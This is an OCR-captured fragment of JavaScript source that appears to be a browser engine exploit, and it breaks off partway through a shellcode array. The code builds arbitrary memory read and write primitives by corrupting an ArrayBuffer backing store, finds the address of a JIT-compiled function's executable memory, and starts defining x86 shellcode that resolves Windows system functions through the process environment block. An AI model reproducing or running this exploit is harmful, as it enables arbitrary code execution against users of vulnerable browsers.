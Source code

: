 ```plain
    } else
        log("[+] backing store idx: " + backing_store_idx +
            ", in " + (backing_store_in_hign_mem ? "high" : "low") + " place.");

    if (OptObj_idx == -1) {
        log("[-] Can not find Opt Obj !");
        return;
    } else
        log("[+] OptObj idx: " + OptObj_idx +
            ", in " + (OptObj_idx_in_hign_mem ? "high" : "low") + " place.");

    var backing_store = (backing_store_in_hign_mem ?
        f2u(big_arr[backing_store_idx])[1] :
        f2u(big_arr[backing_store_idx])[0]);
    log("[+] Origin backing store: " + hex(backing_store));

    var dataNearBS = (!backing_store_in_hign_mem ?
        f2u(big_arr[backing_store_idx])[1] :
        f2u(big_arr[backing_store_idx])[0]);

    function read(addr) {
        if (backing_store_in_hign_mem)
            big_arr[backing_store_idx] = u2f(addr, dataNearBS);
        else
            big_arr[backing_store_idx] = u2f(dataNearBS, addr);
        return data_view.getInt32(0, true);
    }

    function write(addr, msg) {
        if (backing_store_in_hign_mem)
            big_arr[backing_store_idx] = u2f(addr, dataNearBS);
        else
            big_arr[backing_store_idx] = u2f(dataNearBS, addr);
        data_view.setInt32(0, msg, true);
    }

    var OptJSFuncAddr = (OptObj_idx_in_hign_mem ?
        f2u(big_arr[OptObj_idx])[1] :
        f2u(big_arr[OptObj_idx])[0]) - 1;
    log("[+] OptJSFuncAddr: " + hex(OptJSFuncAddr));

    var OptJSFuncCodeAddr = read(OptJSFuncAddr + 0x18) - 1;
    log("[+] OptJSFuncCodeAddr: " + hex(OptJSFuncCodeAddr));

    var RWX_Mem_Addr = OptJSFuncCodeAddr + 0x40;
    log("[+] RWX Mem Addr: " + hex(RWX_Mem_Addr));

    var shellcode = new Uint8Array(
           [0x89, 0xe5, 0x83, 0xec, 0x20, 0x31, 0xdb, 0x64, 0x8b, 0x5b, 0x30, 0x8b, 0x5b, 0x0c, 0x8b, 0x5b,
            0x1c, 0x8b, 0x1b, 0x8b, 0x1b, 0x8b, 0x43, 0x08, 0x89, 0x45, 0xfc, 0x8b, 0x58, 0x3c, 0x01, 0xc3,
            0x8b, 0x5b, 0x78, 0x01, 0xc3, 0x8b, 0x7b, 0x20, 0x01, 0xc7, 0x89, 0x7d, 0xf8, 0x8b, 0x4b, 0x24,
            0x01, 0xc1, 0x89, 0x4d, 0xf4, 0x8b, 0x53, 0x1c, 0x01, 0xc2, 0x89, 0x55, 0xf0, 0x8b, 0x53, 0x14,
            0x89, 0x55, 0xec, 0xeb, 0x32, 0x31, 0xc0, 0x8b, 0x55, 0xec, 0x8b, 0x7d, 0xf8, 0x8b, 0x75, 0x18,
            0x31, 0xc9, 0xfc, 0x8b, 0x3c, 0x87, 0x03, 0x7d, 0xfc, 0x66, 0x83, 0xc1, 0x08, 0xf3, 0xa6, 0x74,
            0x05, 0x40, 0x39, 0xd0, 0x72, 0xe4, 0x8b, 0x4d, 0xf4, 0x8b, 0x55, 0xf0, 0x66, 0x8b, 0x04, 0x41,
```